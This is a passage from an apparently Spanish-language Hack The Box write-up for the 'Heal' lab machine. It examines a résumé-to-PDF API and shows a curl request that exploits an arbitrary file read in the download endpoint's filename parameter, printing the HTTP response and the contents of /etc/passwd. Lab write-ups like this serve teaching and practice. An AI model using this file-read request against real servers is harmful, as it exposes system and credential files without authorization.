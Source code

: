 Es una petición con un cuerpo JSON con el contenido HTML del curriculum a ser procesado. Esto da indicios de que se puede estar usando `wkhtmltopdf` pero no nos servirá de mucho por algo que veremos luego. Luego de esta petición hay otra para descargar el resultado:

```bash
GET /download?filename=59e25224022e64ff806b.pdf HTTP/1.1
Host: api.heal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Bearer ...
Origin: http://heal.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://heal.htb/
```

Si cambiamos el parámetro `filename` a algo como `/etc/passwd` veremos que:

```bash
❯ curl -v -H "Authorization: Bearer ..." "http://api.heal.htb/download?filename=/etc/passwd"
* Host api.heal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.46
*   Trying 10.10.11.46:80...
* Connected to api.heal.htb (10.10.11.46) port 80
* using HTTP/1.x
> GET /download?filename=/etc/passwd HTTP/1.1
> Host: api.heal.htb
> User-Agent: curl/8.13.0
> Accept: */*
> Authorization: Bearer ...
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 21 May 2025 21:06:04 GMT
< Content-Type: application/octet-stream
< Content-Length: 2120
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< x-xss-protection: 0
< x-content-type-options: nosniff
< x-permitted-cross-domain-policies: none
< referrer-policy: strict-origin-when-cross-origin
< content-disposition: attachment; filename="passwd"; filename*=UTF-8''passwd
< content-transfer-encoding: binary
< cache-control: no-cache
< x-request-id: 7b3f1371-f0c8-4d11-9f3e-aee9aaf7a918
< x-runtime: 0.006832
< vary: Origin
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```